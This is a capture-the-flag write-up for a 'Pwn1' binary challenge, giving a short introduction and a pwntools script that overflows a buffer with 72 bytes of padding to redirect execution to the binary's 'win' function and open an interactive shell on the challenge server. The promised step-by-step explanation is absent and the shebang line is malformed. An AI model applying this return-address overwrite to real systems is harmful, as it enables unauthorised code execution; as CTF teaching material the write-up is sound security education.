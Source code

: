 Pwn1 Binary Exploitation Challenge Writeup

#Introduction:

The "Pwn1" challenge is a binary exploitation challenge that requires exploiting a vulnerable binary to gain a remote shell. In this writeup, we'll walk through the process of solving the challenge step by step. The challenge binary, named "pwn1," was hosted on the server challs.n00bzunit3d.xyz on port 35932. We'll use a Python script with the help of the pwntools library to automate the exploitation process.
```py
#!usr/bin/env/python3

from pwn import *
import sys
import warnings

warnings.filterwarnings(action='ignore',category=BytesWarning)
context.log_level = "DEBUG"

server = sys.argv[1]
port = sys.argv[2]
elf = ELF("./pwn1")
garbage = b"A"*72

rip = p64(elf.symbols['win'])

payload = garbage + rip	



p = remote(server,port)

p.recvline()
p.sendline(payload)
p.interactive()
```

